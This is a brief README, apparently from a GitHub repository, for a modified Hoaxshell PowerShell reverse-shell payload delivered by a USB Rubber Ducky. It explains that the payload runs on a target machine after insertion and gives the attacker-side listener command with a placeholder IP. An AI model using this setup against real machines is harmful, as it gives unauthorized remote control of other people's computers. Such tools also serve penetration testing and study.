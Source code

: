 Modified Hoaxshell for the usb RubberDucky:
-------------------------------------------

Powershell reverse shell with Authorization ID using Hoaxshell,after we insert the USB RubberDucky wait a few seconds for the payload to load and when its done the Capslook turns ON/OFF on target
-------------------------------------------
on the attacker machine use the -g to remember the Authorization id
./hoaxshell.py -s X.X.X.X -r -g -H "Authorization"


------------------------------------------------------
Credits go to t3l3machus/hoaxshell for the powershell,
https://github.com/t3l3machus/hoaxshell

